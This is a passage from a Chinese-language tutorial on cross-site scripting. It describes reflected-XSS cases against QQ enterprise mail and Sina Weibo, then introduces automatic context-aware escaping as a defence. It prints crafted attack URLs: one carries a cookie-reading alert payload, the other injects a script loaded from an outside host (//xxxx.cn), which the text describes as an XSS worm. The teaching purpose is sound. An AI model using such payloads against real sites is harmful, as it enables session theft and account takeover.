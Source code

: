 攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击：
`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```html
 <script>  
getTop().location.href= "/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa" + "&t=" + "&d=bbbb" ; return   false ;  </ script >  < script >  alert( document .cookie)  </ script > "+"...
```

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

```html
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
 <li>  <a href = "http://weibo.com/pub/star/g/xyyyd" >  < script   src = //xxxx.cn/image/t.js >  </ script > ">按分类检索 </ a >  </ li > 
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

## 扩展阅读：Automatic Context-Aware Escaping

上文我们说到：

1.合适的 HTML 转义可以有效避免 XSS 漏洞。

2.完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。

3.业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。

通常，转义库是不能判断插入点上下文的（Not Context-Aware），实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)。

所谓 Context-Aware，就是说模板引擎在解析模板字符串的时候，就解析模板语法，分析出每个插入点所处的上下文，据此自动选用不同的转义规则。这样就减轻了业务 RD 的工作负担，也减少了人为带来的疏漏。

在一个支持 Automatic Context-Aware Escaping 的模板引擎里，业务 RD 可以这样定义模板，而无需手动实施转义规则：
